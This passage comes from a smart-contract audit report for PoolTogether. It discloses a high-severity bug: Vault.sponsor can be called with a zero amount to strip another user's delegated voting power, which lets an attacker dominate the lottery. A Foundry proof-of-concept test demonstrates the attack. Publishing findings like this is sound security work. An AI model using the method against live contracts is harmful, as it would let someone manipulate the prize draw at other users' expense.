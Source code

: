 **Status**: Mitigation confirmed. Full details in reports from [rvierdiiev](https://github.com/code-423n4/2023-08-pooltogether-mitigation-findings/issues/30), [dirk\_y](https://github.com/code-423n4/2023-08-pooltogether-mitigation-findings/issues/5) and [0xStalin](https://github.com/code-423n4/2023-08-pooltogether-mitigation-findings/issues/26).

***

## [[H-05] Delegated amounts can be forcefully removed from anyone in the `TwabController`](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/351)
*Submitted by [0xkasper](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/351), also found by [minhtrng](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/461), [qpzm](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/408), [Aymen0909](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/393), [Jeiwan](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/292), [GREY-HAWK-REACH](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/263), [0xStalin](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/241), [0xbepresent](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/204), [3docSec](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/63), and [Co0nan](https://github.com/code-423n4/2023-07-pooltogether-findings/issues/13)*

The `sponsor` function in the `Vault.sol` contract allows anyone to remove another user's delegation by forcing them to delegate to the sponsor address. `_sponsor` will deposit some amount from the caller for the target user and then force a delegation to the sponsor address (`address(1)`).

However, this amount can just be 0 and so it becomes a function to simply force a removal of a delegation. The full delegated power gets removed, because delegations to the sponsor address are not tracked.

As such, it becomes possible to call the `sponsor` function for every user and make the total delegated power supply in the `TwabController` equal to 0. The attacker can then be the only one with some delegated amount that is equal to 100% of the total supply, manipulating the process of the lottery.

Rectifying the delegation requires manual interaction from the user and the exploit can be repeated anytime and continuously, further manipulating the values in the `TwabController`.

### Proof of Concept

    function testPoCDelegateRemoval() public {
        address SPONSORSHIP_ADDRESS = address(1);
        uint96 BALANCE = 100_000_000 ether;

        token.approve(address(vault), BALANCE);
        vault.deposit(BALANCE, address(this));

        assertEq(address(this), twab_controller.delegateOf(address(vault), address(this)));
        assertEq(BALANCE, twab_controller.delegateBalanceOf(address(vault), address(this)));

        // As attacker, call sponsor with 0 amount and victim address
        vm.prank(address(0xdeadbeef));
        vault.sponsor(0, address(this));

        // Delegated balance is now gone
        assertEq(SPONSORSHIP_ADDRESS, twab_controller.delegateOf(address(vault), address(this)));
        assertEq(0, twab_controller.delegateBalanceOf(address(vault), address(this)));
        assertEq(0, twab_controller.delegateBalanceOf(address(vault), SPONSORSHIP_ADDRESS));
    }
